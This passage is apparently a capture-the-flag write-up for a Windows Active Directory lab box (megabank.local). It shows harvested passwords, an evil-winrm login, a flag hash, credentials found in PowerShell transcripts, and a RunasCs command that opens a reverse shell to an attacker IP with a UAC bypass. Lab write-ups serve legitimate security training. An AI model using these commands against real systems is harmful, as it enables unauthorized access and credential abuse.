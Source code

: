<img  alt="Pasted image 20240729043817" src="https://github.com/user-attachments/assets/64d1b4d4-04ec-4929-a30d-34d6b100fe37">

`melanie : Welcome123!`

## WinRM 5985

Windows Remote Management (WinRM) is a protocol developed by Microsoft, enabling administrators to **manage and control Windows-based systems remotely** Evil-winrm is a tool which use **WinRM** service to get remote shell on the box.

```powershell
$ evil-winrm -i megabank.local -u melanie -p 'Welcome123!'                
```

- **-i** for IP address
- **-u** for user
- **-p** for password

```powershell
*Evil-WinRM* PS C:\Users\melanie\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\melanie\Desktop> cat user.txt
d823709facaeec2fd3797472ddc9d51b
```

# Privilege Escalation

## Lateral Movement

I started enumerating using **winpease** but didn't discover anything useful. Then i decided to enumerate the File system manually. In `C:\` directory i found some hidden directories, PSTranscripts directory holds the Powershell session Hisotory Logs where i found the credentials of **Ryan** user.

<img alt="Pasted image 20240729044034" src="https://github.com/user-attachments/assets/68cf3695-d3d0-4d49-94c9-41a573f96ebd">

<img  alt="Pasted image 20240729044108" src="https://github.com/user-attachments/assets/56bc6561-d9e3-4f79-98a0-a79fda85ba1c">

- **-Force** to display hidden Directories
- **-R** for recursion

<img  alt="Pasted image 20240729044214" src="https://github.com/user-attachments/assets/5c0a5388-c5a9-491d-9fc4-f8cad7d9f520">

`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`
`ryan : Serv3r4Admin4cc123!`

Then i check if the Ryan is a member of Remote Management group, but he didn't so we can't get shell using Evil-Winrm. 

There we will use RunasCs is **an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials** 

<img  alt="Pasted image 20240729044323" src="https://github.com/user-attachments/assets/93b8cbc1-3689-4609-ae4f-11166dc02801">

```bash
$ ./RunasCs.exe ryan  'Serv3r4Admin4cc123!' powershell.exe -r 10.10.16.8:9001 -l 8  --bypass-uac
```
